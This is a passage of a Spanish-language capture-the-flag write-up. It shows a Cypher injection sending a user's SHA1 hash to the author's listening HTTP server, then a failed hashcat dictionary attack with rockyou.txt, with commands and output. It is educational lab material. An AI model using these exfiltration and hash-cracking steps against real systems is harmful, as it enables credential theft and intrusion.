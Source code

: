 En nuestro servidor web, hemos recibido un valor SHA1, específicamente el hash `9f54ca4c130be6d529a56dee59dc2b2090e43acf`. Este hash parece estar relacionado con el usuario `graphasm`, que habíamos encontrado anteriormente en la base de datos de Neo4j.

Esto confirma que la inyección Cypher nos ha permitido extraer con éxito información sensible sobre los usuarios y sus datos asociados.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:22:55] "GET /?value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```

### Cracking Hashes (FAILED)

Nos guardaremos el hash obtenido en un archivo llamado `hashes`, al utilizar la herramienta de `hashid` para verificar qué tipo de hash es, nos encontramos que al parecer se trata de cifrado `SHA1`.

Al intentar crackear el hash con herramientas de cracking como `hashcat`, nos encontramos que el resultado ha sido `Exhausted`, indicando que no se ha logrado crackear el hash a través del diccionario `rockyou.txt`.

```bash
❯ echo '9f54ca4c130be6d529a56dee59dc2b2090e43acf' > hashes
❯ hashid '9f54ca4c130be6d529a56dee59dc2b2090e43acf'
Analyzing '9f54ca4c130be6d529a56dee59dc2b2090e43acf'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 
❯ hashcat -a 0 -m 100 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

...[snip]...     

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: 9f54ca4c130be6d529a56dee59dc2b2090e43acf
Time.Started.....: Tue Mar  4 17:43:39 2025 (5 secs)
Time.Estimated...: Tue Mar  4 17:43:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2614.9 kH/s (0.37ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344389/14344389 (100.00%)
Rejected.........: 0/14344389 (0.00%)
Restore.Point....: 14344389/14344389 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206c6f73657239] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 40%
```